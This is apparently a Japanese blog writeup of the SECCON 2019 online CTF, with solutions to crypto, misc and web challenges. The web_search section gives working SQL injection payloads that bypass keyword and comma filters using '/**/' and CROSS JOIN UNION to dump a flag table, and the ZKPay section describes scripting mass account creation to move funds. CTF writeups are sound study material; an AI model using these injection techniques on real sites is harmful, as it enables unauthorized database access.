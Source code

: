 +++
title="SECCON 2019 Online CTF Writeup"
description=""
date=2019-10-20

[taxonomies]
tags = ["CTF"]
#categories = ["programming", "misc.",]

[extra]
+++

<!-- bigimg: [{src: "/img/seccon-2019-online-ctf.png"}]
tags: ["CTF"] -->

[SECCON 2019](https://www.seccon.jp/2019/) 

チーム「./Vespiary」で出て 37 位 2402 点でした。
以下、自分が取り組んだ問題です（チームメンバーと解いたものを含む）。

<!-- {{< toc >}} -->

# [crypto] coffee_break
ソースコードを読んで逆算するプログラムを書けば良い。

```py
import sys
from Crypto.Cipher import AES
import base64

def decrypt(key, cipher):
    s = ''
    for i in range(len(cipher)):
        c = cipher[i] - 0x20 - (ord(key[i % len(key)]) - 0x20)
        if c < 0:
            c += (0x7e - 0x20 + 1)
        c += 0x20
        s += chr(c)
    return s

key1 = "SECCON"
key2 = "seccon2019"
cipher = AES.new(key2 + chr(0x00) * (16 - (len(key2) % 16)), AES.MODE_ECB)

encoded = "FyRyZNBO2MG6ncd3hEkC/yeYKUseI/CxYoZiIeV2fe/Jmtwx+WbWmU1gtMX9m905"

enc2 = base64.b64decode(encoded)
enc1_ = cipher.decrypt(enc2)

print(decrypt(key1, enc1_))
```

`SECCON{Success_Decryption_Yeah_Yeah_SECCON}`

# [misc] Beeeeeeeeeer
とりあえず与えられたシェルスクリプトを実行してみると、文字が増えたり消えたりするCUIアニメーションが表示される。シェルスクリプトで具体的に何が行われているか知るために**気合**で人力フォーマットと`echo`コマンドを駆使して解読していった。
適宜`bash -x`を使うことで楽に解読できる。

`SECCON{hogefuga3bash}`

# [crypto] ZKPay

signupにめちゃくちゃ時間がかかる。signupクエリを送った後に、homeへ移動してみると普通に利用できることがわかった。そこで、signupした直後にcreateQRをしてみたが、どうやら1分待たないと正常なQRコードが生成されない。

$1,000,000 / $500 = 2000 で自動化が現実的なので、2000個アカウントを生成してメインのアカウントにお金を送るスクリプトを書いた。

実行に3時間かかったが無事flagを得た。

![](https://i.gyazo.com/7be2f37c7e9749a01460b1d82a4c98a7.png)

# [web] web_search

適当に記号を入力してみると、`'`でErrorすることがわかる。
SQL injection を使う問題であることを疑い、色々実験すると、

- 空白文字` `が消える
- `,`が消える
- `or`,`and`が消える
- `oorr`が`or`になる
- `#`が効く
- `/**/`が空白代わりになる

などがわかる。

`#`が効くことからMySQLが使われていることが推測でき、
`'oorr'1'='1'#`で、
```
FLAG
The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. 
Try more!
```
Flagの前半部分を得る。

`flag`テーブルにflagがあるようなので、UNIONを用いてflagを表示させたいが、`,`が消されるのでカラム数を合わせることが難しい。

CROSS JOIN を用いて、

`' OORR '1' = '1' /**/ UNION /**/ SELECT /**/ * /**/ FROM /**/ (SELECT /**/ * /**/ FROM /**/ flag)aaa /**/ CROSS /**/ JOIN /**/ (SELECT /**/ * /**/ FROM /**/ flag)bbb /**/ CROSS /**/ JOIN /**/ (SELECT /**/ * /**/ FROM /**/ flag)ccc#"`

を送信すると、フラグが得られる。

`SECCON{Yeah_Sqli_Success_You_Win_Yeah}`

# [crypto] Crazy Repetition of Codes

crc32は決定的な関数なので、鳩の巣原理よりcrcの値の周期が2^32以下であることがわかる。よって`int('1'*10000) % 周期`の回数crc32を実行すればいい。

# [misc] Sandstorm

![](https://i.gyazo.com/bb6d5672d1d08dbd55fcdfbef4c7384c.png)

画像に`My name is Adam`とあり、010 Editorなどのツールでファイルを見るとインターレースがAdam7になっているので[Adam7 algorithm - Wikipedia](https://en.wikipedia.org/wiki/Adam7_algorithm)が関係していそうとわかる。

これに着想を得て、8ピクセルごとにピクセルを抽出して画像にしてみると、

```py
from PIL import Image

img = Image.open('sandstorm.png')
W, H = img.size

img2 = Image.new('RGBA', (W//8, H//8))

for y in range(0,H//8):
    for x in range(0,W//8):
        img2.putpixel((x,y), img.getpixel((x*8,y*8)))

img2.save('img2.png')
```

![](https://i.gyazo.com/e5ccd541bf310d656aa11d8db1aec3d7.png)

QRコードが得られる。

`SECCON{p0nlMpzlCQ5AHol6}`

